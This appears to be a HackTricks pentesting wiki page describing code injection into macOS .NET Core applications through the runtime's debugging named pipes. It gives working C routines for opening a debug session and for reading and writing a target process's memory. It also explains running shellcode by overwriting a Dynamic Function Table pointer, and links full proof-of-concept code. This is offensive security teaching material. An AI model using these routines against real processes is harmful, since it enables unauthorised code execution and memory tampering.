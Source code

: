 # macOS .Net Applications Injection

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## .NET Core Debugging <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Stablish a debugging session** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) is responsible for handling debugger to debugee **communication**.\
It creates a 2 of names pipes per .Net process in [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) by calling [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (one will end in **`-in`** and the other in **`-out`** and the rest of the name will be the same).

So, if you go to the users **`$TMPDIR`** you will be able to find **debugging fifos** you could use to debug .Net applications:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The function [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) will handle the communication from a debugger.

The first thing a debugger is required to do is to **create a new debugging session**. This is done by **sending a message via the `out` pipe** beginning with a `MessageHeader` struct, which we can grab from the .NET source:

```c
struct MessageHeader
{
    MessageType   m_eType;        // Type of message this is
    DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
    DWORD         m_dwId;         // Message ID assigned by the sender of this message
    DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
    DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
    DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
                                            // never read)
        union {
            struct {
                DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
                DWORD         m_dwMinorVersion;
            } VersionInfo;
          ...
        } TypeSpecificData;

    BYTE                    m_sMustBeZero[8];
}
```

In the case of a new session request, this struct is populated as follows:

```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```

Once constructed, we **send this over to the target** using the `write` syscall:

```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```

Following our header, we need to send over a `sessionRequestData` struct, which contains a GUID to identify our session:

```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```

Upon sending over our session request, we **read from the `out` pipe a header** that will indicate **if** our request to establish whether a debugger session has been **successful** or not:

```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```

### Read Memory

With a debugging sessions stablished it's possible to **read memory** using the message type [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). To read some memory the main code needed would be:

```c
bool readMemory(void *addr, int len, unsigned char **output) {

    *output = (unsigned char *)malloc(len);
    if (*output == NULL) {
        return false;
    }

    sSendHeader.m_dwId++; // We increment this for each request
    sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
    sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
    sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
    sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
    sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
    sSendHeader.m_cbDataBlock = 0;

    // Write the header
    if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Read the response header
    if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Make sure that memory could be read before we attempt to read further
    if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
        return false;
    }

    memset(*output, 0, len);
    
    // Read the memory from the debugee
    if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
        return false;
    }

    return true;
}
```

The proof of concept (POC) code found [here](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Write memory

```c
bool writeMemory(void *addr, int len, unsigned char *input) {

  sSendHeader.m_dwId++; // We increment this for each request
  sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
  sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
  sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
  sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
  sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
  sSendHeader.m_cbDataBlock = len;

  // Write the header
  if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Write the data
  if (write(wr, input, len) < 0) {
      return false;
  }

  // Read the response header
  if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Ensure our memory write was successful
  if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
      return false;
  }

  return true;

}
```

The POC code used to do this can be found [here](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### .NET Core Code execution <a href="#net-core-code-execution" id="net-core-code-execution"></a>

The first thing is to identify for example a memory region with **`rwx`** running to save the shellcode to run. This can be easily done with:

```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```

Then in order to trigger the execution it would be needed to know some place where a function pointer is stored to overwrite it. It's possible to overwrite a pointer within the **Dynamic Function Table (DFT)**, which is used by the .NET Core runtime to provide helper functions for JIT compilation. A list of supported function pointers can be found within [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

In x64 versions this is straightforward using the mimikatz-esque **signature hunting** technique to search through **`libcorclr.dll`** for a reference to the symbol **`_hlpDynamicFuncTable`**, which we can dereference:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

All that is left to do is to find an address from which to start our signature search. To do this, we leverage another exposed debugger function, **`MT_GetDCB`**. This returns a number of useful bits of information on the target process, but for our case, we are interested in a field returned containing the **address of a helper function**, **`m_helperRemoteStartAddr`**. Using this address, we know just **where `libcorclr.dll` is located** within the target process memory and we can start our search for the DFT.

Knowing this address it's possible to overwrite the function pointer with our shellcodes one.

The full POC code used to inject into PowerShell can be found [here](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## References

* This technique was taken from [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
